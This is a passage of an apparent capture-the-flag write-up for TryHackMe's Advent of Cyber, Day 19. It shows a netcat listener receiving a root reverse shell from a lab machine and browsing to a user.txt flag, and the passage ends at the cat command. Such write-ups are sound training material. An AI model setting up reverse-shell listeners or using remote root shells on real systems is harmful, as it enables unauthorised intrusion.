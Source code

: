   2564799a4e6689972f6d9e1c7b406f87065cbf65

---

### [Task 24] [Day 19] Commands

- What are the contents of the user.txt file?

  **Solution:**

  <img src="https://github.com/Faridbg/THM_Advent_of_Cyber/blob/main/resources/images/Task_24_%231.png" style="zoom:150%;" />

  

  ~~~bash
  $ nc -lvkp 3000
  listening on [any] 3000 ...
  10.10.183.204: inverse host lookup failed: Unknown host
  connect to [10.9.90.233] from (UNKNOWN) [10.10.183.204] 56266
  bash: no job control in this shell
  [root@ip-10-10-183-204 /]# ls
  ls
  bin
  boot
  data
  dev
  etc
  home
  lib
  lib64
  local
  media
  mnt
  opt
  proc
  root
  run
  sbin
  srv
  sys
  tmp
  usr
  var
  [root@ip-10-10-183-204 /]# cd home
  cd home
  [root@ip-10-10-183-204 home]# ls
  ls
  bestadmin
  ec2-user
  [root@ip-10-10-183-204 home]# cd bestadmin
  cd bestadmin
  [root@ip-10-10-183-204 bestadmin]# ls
  ls
  bin
  new-room
  run.sh
  user.txt
  [root@ip-10-10-183-204 bestadmin]# cat user.txt	
  ~~~